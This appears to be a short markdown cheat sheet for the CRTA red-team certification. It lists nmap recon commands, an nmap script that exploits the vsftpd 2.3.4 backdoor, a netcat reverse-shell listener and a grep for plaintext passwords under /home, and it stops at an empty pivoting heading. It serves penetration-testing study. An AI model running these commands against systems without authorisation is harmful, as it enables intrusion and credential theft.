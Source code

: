 ## 🔴 CRTA Cheatsheet 🔴

## 🧭 Phase 1 – Initial Recon (External/Perimeter)

### Context  
Initial reconnaissance focuses on identifying live hosts and open services in the target range to plan next steps with minimal noise.

### Techniques  
- Ping sweep to detect live hosts (ICMP).  
- Full port scan with service version detection.  
- Automated recon for efficiency and clean reports.

### Commands  
```bash
# Discover live hosts with ping sweep
nmap -sn <IP_range>

# Full port scan + version detection, output to file
nmap -p- -T4 -sV -oN scan.txt <IP>

# Automated recon (nmap + scripts + brute force)
autorecon.py
````  

## 🔓 Phase 2 – Initial Access (Exploitation)
Context: Look for exploitable vulnerabilities or misconfigurations to gain initial foothold on target machines.

Techniques:
- Exploit known backdoors (e.g., vsftpd 2.3.4).
- Prepare listeners for reverse shells.
- Search for plaintext credentials in common file locations.

Commands:
```bash
# Exploit vsftpd 2.3.4 backdoor using nmap script
nmap --script ftp-vsftpd-backdoor.nse -p 21 <IP>

# Set up a listener for reverse shell
nc -lnvp <port>

# Search for passwords in user directories
grep -ri password /home/*
Tools:

nmap scripts – Automated exploit scanning.

netcat (nc) – Listener and shell connections.
```
##  🔁Phase 3 – Pivoting (Cross-Subnet Movement)
